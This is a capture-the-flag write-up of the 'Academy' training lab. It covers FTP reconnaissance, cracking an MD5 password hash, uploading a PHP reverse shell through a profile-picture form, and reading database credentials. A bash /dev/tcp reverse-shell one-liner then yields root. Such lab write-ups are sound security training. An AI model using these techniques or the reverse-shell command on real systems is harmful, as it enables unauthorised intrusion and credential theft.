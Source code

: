 # Academy (192.168.64.4) CTF Write-Up

**Author:** Alan Garcia  
**Date:** 9/1/2023

## Table of Contents
- [Introduction](#introduction)
- [Challenge Overview](#challenge-overview)
- [Initial Reconnaissance](#initial-reconnaissance)
- [Exploitation](#exploitation)
- [Privilege Escalation](#privilege-escalation)
- [Flag Retrieval](#flag-retrieval)
- [Resources](#resources)

---

## Introduction
Academy was developed by TCM Academy

## Challenge Overview
This challenge has the easy dificulty

## Initial Reconnaissance
Detail the information-gathering phase:
- IP address: 192.168.64.4
- NMAP:
  - 21/tcp open  ftp     vsftpd 3.0.3
  | ftp-anon: Anonymous FTP login allowed (FTP code 230)
  |_-rw-r--r--    1 1000     1000          776 May 30  2021 note.txt

  - 22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
  - 80/tcp open  http    Apache httpd 2.4.38 ((Debian))
- Service enumeration:
  - gobuster dir -u http://192.168.64.4 -w /usr/share/wordlists/rockyou.txt -t 40
  - Results:
    - /academy              (Status: 301) [Size: 314] [--> http://192.168.64.4/academy/]
   
  - Findings:
    - note.txt
    - └─$ cat note.txt
        Hello Heath !
        Grimmie has setup the test website for the new academy.
        I told him not to use the same password everywhere, he will change it ASAP.
        
        
        I couldn't create a user via the admin panel, so instead I inserted directly into the database with the following command:
        
        INSERT INTO `students` (`StudentRegno`, `studentPhoto`, `password`, `studentName`, `pincode`, `session`, `department`, `semester`, `cgpa`, `creationdate`, `updationDate`) VALUES
        ('10201321', '', 'cd73502828457d15655bbd7a63fb0bc8', 'Rum Ham', '777777', '', '', '', '7.60', '2021-05-29 14:36:56', '');
        
        The StudentRegno number is what you use for login.
        
        
        Le me know what you think of this open-source project, it's from 2020 so it should be secure... right ?
        We can always adapt it to our needs.
        
        -jdelta
Interesting Findings:
-10201321
-cd73502828457d15655bbd7a63fb0bc8

At this point, I saved the hash to hashes.txt and ran hash-cat on it:
-└─$ hashcat -m 0 hashes.txt /usr/share/wordlists/rockyou.txt      
-cd73502828457d15655bbd7a63fb0bc8:student
student is the password for the /academy page


## Exploitation
Explain how you approached exploiting the challenge:

-using the web browser, i accessed /academy and logged in using the login info

![Login Page](./img/login.png)

I clicked around the website and saw a profile page where I could upload a picture,
perfect opportunity for a reverse shell.

I used https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php
and saved it onto a file called shell.php
I used netcat to set up a listening port on my machine to let me know if i popped a shell
-└─$ nc -nvlp 1234


successfully uploaded file onto student profile pic

![Login Page](./img/shell.png)

└─$ nc -nvlp 1234
listening on [any] 1234 ...
connect to [192.168.64.2] from (UNKNOWN) [192.168.64.4] 35406
Linux academy 4.19.0-16-amd64 #1 SMP Debian 4.19.181-1 (2021-03-19) x86_64 GNU/Linux
 23:50:25 up  3:33,  1 user,  load average: 0.00, 0.58, 1.07
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
root     tty1     -                06:39   17:10m  0.36s  0.22s -bash
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data


## Privilege Escalation
If applicable, describe how you escalated privileges:

saved linpeas onto my device to upload it to my target
https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS

ran linpeah.sh on the target and found some interesting information:
    grimmie:x:1000:1000:administrator,,,:/home/grimmie:/bin/bash                                                                                               
    * * * * * /home/grimmie/backup.sh
    
    $ cat /var/www/html/academy/includes/config.php
    <?php
    $mysql_hostname = "localhost";
    $mysql_user = "grimmie";
    $mysql_password = "My_V3ryS3cur3_P4ss";

## Flag Retrieval
Detail how you located and captured the flag(s):
I set up a listening port on my machine and ran a single line shell on the target device:
  bash -i >& /dev/tcp/192.168.64.2/8081 0>&1

      └─# nc -nvlp 8081       
      listening on [any] 8081 ...
      connect to [192.168.64.2] from (UNKNOWN) [192.168.64.4] 57998
      bash: cannot set terminal process group (12851): Inappropriate ioctl for device
      bash: no job control in this shell
      root@academy:~# whoami
      whoami
      root
      
-Verified root access

      root@academy:~# cd root
      cd root
      bash: cd: root: No such file or directory
      root@academy:~# ls
      ls
      flag.txt

- Flag has been found
  
      root@academy:~# cat flag.txt
      cat flag.txt
      Congratz you rooted this box !
      Looks like this CMS isn't so secure...
      I hope you enjoyed it.
      If you had any issue please let us know in the course discord.
      
      Happy hacking !
      root@academy:~# 


## Resources
List any external sources, tools, or references you used:
- https://netcat.sourceforge.net/
- https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS
- https://github.com/OJ/gobuster

